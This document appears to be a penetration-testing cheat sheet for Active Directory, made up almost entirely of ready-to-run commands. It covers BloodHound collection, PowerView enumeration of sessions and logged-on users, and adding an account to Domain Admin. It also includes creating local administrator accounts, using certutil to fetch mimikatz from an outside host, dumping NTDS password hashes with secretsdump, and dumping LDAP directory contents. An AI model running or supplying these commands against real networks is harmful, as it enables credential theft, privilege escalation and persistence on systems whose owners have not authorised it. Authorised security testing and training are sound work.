 Bloodhound ingestor - https://hunter2.gitbook.io/darthsidious/enumeration/bloodhound
```powershell
Invoke-Bloodhound -CollectionMethod All -Compress
```

Check password policy for lockouts
```bat
net accounts
```

Get current domain and domain controller
```powershell
[System.DirectoryServices.ActiveDirectory.Domain].GetCurrentDomain()
```

Search logged on users (From domain joined computer)
```powershell
Import-Module .\PowerView.ps1
Get-NetLoggedon -ComputerName client123 # -Server dc01.corp
Get-NetSession -ComputerName dc01
```

List domain users
```powershell
net user /domain
Get-ADUser
```

Powershell prompt in domain context (Useful for bloodhound ingestor from outside a domain-joined box or querying stuff in AD)
```bat
runas /netonly /user:domain\user powershell
```

All Groups that the user belongs to
```powershell
Get-ADPrincipalGroupMembership user | Select name
```
Adding user to domain (Need RSAT module)
```powershell
New-ADUser -Name "Satinha da Silva" -Samusername "sata.silva" -Enabled $True
Add-ADGroupMember -Identity "Domain Admin" -Members "satinha"
```
Creating local user
```powershell
Password = Read-Host -AsSecureString
New-LocalUser "User03" -Password $Password -FullName "Third User" -Description "Description of this account."
# cmd.exe
net user username password /add
net localgroup Administrators username /add
```
Download files from windows
```powershell
certutil.exe -urlcache -split -f http://10.10.10.10/mimikatz.exe mimikatz.exe
IWR -Uri http://asdasd.com.br/file.exe -Outfile file.exe # (Invoke-WebRequest)
```
Remote dump ntds.dit file
```bash
secretsdump.py -just-dc-ntlm domain/user@dc-name.corp 43ad9d72b6fad288056f81166418c3bf
```
Object properties
```powershell
Get-ADObject -SearchBase "DC=corp,DC=local" -filter 'SamAccountName -eq "admin"' -property *
```
Enumerate LDAP distingued names
```bash
ldapsearch -x -h dc-01.corp.local -s base namingcontexts
# And then dumping it
ldapsearch -x -h dc-01.corp.local -b 'DC=corp,DC=local'
```
